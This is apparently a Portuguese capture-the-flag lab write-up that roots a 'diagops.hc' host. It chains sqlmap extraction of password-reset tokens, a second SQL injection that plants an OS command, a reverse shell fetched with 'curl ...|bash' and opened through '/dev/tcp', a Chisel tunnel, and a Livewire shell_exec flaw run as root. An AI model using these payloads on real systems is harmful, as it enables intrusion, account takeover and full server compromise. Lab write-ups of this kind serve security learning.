Duas vulnerabilidades de SQL Injection encadeadas: a primeira no fluxo de reset de senha permite extrair tokens e assumir a conta admin. A segunda injeta comandos no campo de atualização de diagnósticos, resultando em RCE. Escalada via code review de app PHP com Livewire executando comandos como root.
bash$ bash ~/tools/enumport/script.sh 172.16.2.191
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.12
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://diagops.hc/
bash$ echo '172.16.2.191 diagops.hc' | sudo tee -a /etc/hosts
Ao acessar a porta 80, encontramos apenas um formulário de login com opção de recuperação de senha.

bash$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt \
-u http://diagops.hc/FUZZ -c -r -ac
login [Status: 200]
logout [Status: 200]
logs [Status: 200]
forgot-password [Status: 200]
Sem outros vetores evidentes, inspecionamos o fluxo de recuperação de senha. Ao enviar um apóstrofo no parâmetro email, o servidor retornou HTTP 500 — indicando SQL Injection.

Salvamos a requisição e executamos o SQLMap para confirmar e explorar a injeção:
http requestPOST /api/auth/forgot-password HTTP/1.1
Host: diagops.hc
Content-Type: application/json
{"email":"string@string.com'"}
bash$ sqlmap -r forgot.req --dbs --batch --level 5 --risk 3 --random-agent
available databases [3]:
[*] diagops
[*] information_schema
[*] performance_schema
bash$ sqlmap -r forgot.req -D diagops --tables --batch --level 5 --risk 3
Database: diagops
[4 tables]
+--------------+
| diagnostics |
| log_commands |
| log_emails |
| users |
+--------------+

bash$ sqlmap -r forgot.req -D diagops -T users --dump --batch \
--level 5 --risk 3 --random-agent --threads 10

A quebra do hash do admin falhou. Identificamos uma coluna token na tabela users — possivelmente usada no fluxo de reset de senha.
Disparamos um pedido de recuperação de senha via aplicação e, em seguida, extraímos o token gerado diretamente do banco:
bash$ sqlmap -r forgot.req -D diagops -T users -C token --dump --batch \
--level 5 --risk 3 --random-agent --threads 10
Database: diagops
Table: users
[1 entry]
+----------------------------------------------+
| token |
+----------------------------------------------+
| NTIwOWJmODE3ZjQ4MzY0MWYzOGY0MWY1NzA3MTU1YWM= |
+----------------------------------------------+
Testamos o endpoint /reset-password?token= com o valor extraído. A mensagem mudou de "token perdido" para "token inválido ou expirado", confirmando que a aplicação processava o parâmetro. Repetimos o processo pegando o token válido e concluímos o reset:


Credenciais redefinidas via token extraído por SQLi. Login efetuado como admin.

O dashboard exibe comandos pré-configurados (ping, traceroute, DNS lookup). Ao criar uma nova tarefa e monitorar as requisições, identificamos uma segunda SQLi no endpoint /api/diagnostics/update/2 — especificamente no campo name.

Encerramos o valor do campo name e injetamos um UPDATE malicioso sobrescrevendo o campo target_arg com um comando OS, usando -- para comentar o resto da query.
json payload{"name":"poc', target_arg = '127.0.0.1; id', description = 'poc' -- ",
"description":"Testes",
"target_arg":"127.0.0.1"}

Ao executar o diagnóstico atualizado, a resposta retornou a saída do comando id — RCE confirmado!

Geramos um payload de reverse shell via reverse-shell.sh, servimos via Python HTTP server e injetamos via SQLi:
json payload{"name":"poc', target_arg = '127.0.0.1; curl 10.0.15.12/shell|bash', description = 'poc' -- ",
"description":"Testes",
"target_arg":"10.0.15.12"}


bash$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=xterm
Obtida no diretório do usuário diagsvc

Enumeramos os serviços internos com ss -tnlp:
bashdiagsvc@ip-172-16-2-191:~$ ss -tnlp
LISTEN 127.0.0.1:3306 ← MySQL
LISTEN 127.0.0.1:8000 ← App PHP rodando como root!
LISTEN 127.0.0.1:3000 ← App Node.js

bash# Processo na porta 8000 rodando como root:
root 1133 /usr/bin/php8.3 -S 127.0.0.1:8000 /root/webapp/vendor/laravel/...
O Chisel permite criar túneis TCP entre hosts. Usamos para expor a porta 8000 do alvo na nossa máquina.
bash$ wget http://10.0.15.12/chisel
$ chmod +x chisel
# No alvo:
$ ./chisel client 10.0.15.12:8888 R:8000:127.0.0.1:8000
Referência: github.com/jpillora/chisel


Criamos um novo usuário na aplicação exposta, autenticamos e acessamos o dashboard. Sem vetores óbvios pela interface, partimos para análise do código-fonte em /opt/webapp/app.

No diretório Livewire encontramos o arquivo MonitoringDashboard.php com uma função refreshMetric crítica:
phpif (strpos($metricName, 'cmd:') === 0) {
$command = substr($metricName, 4);
return function() use ($command) {
return shell_exec($command . ' 2>&1');
};
}
Qualquer parâmetro que inicie com cmd: é executado diretamente via shell_exec — com privilégios de root, pois é o processo pai da aplicação.

Capturamos uma requisição legítima ao endpoint /livewire/update e modificamos o campo params no Burp Suite para validar o RCE:
json payload"params": ["cmd:id"]

RCE como root confirmado! Enviamos o payload de reverse shell:
json payload["cmd:/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.15.12/9002 0>&1'"]


Obtida em /root/root.txt com acesso privilegiado via Livewire RCE
